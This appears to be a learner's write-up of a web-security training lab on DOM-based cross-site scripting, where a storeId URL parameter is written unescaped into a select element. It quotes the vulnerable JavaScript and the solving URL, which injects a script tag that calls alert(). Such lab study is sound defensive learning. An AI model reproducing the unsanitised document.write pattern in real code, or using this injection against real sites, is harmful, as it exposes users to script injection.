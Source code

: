 # Lab: DOM XSS in document.write sink using source location.search inside a select element

 >This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

>To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the alert function. 

Some js found on vulnerable page:

`var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');`

Looks like there is a `storeId` url param that we can use. I created the following url and `999` was displayed in the form:

`https://ac4d1fd71ffbf804c0862df7006100ad.web-security-academy.net/product?productId=2&storeId=999`


This means that we can inject elements into the DOM through the storeId url param...

Solved the lab with the following url: `https://ac4d1fd71ffbf804c0862df7006100ad.web-security-academy.net/product?productId=2&storeId=999<script>onload=alert()</script>`


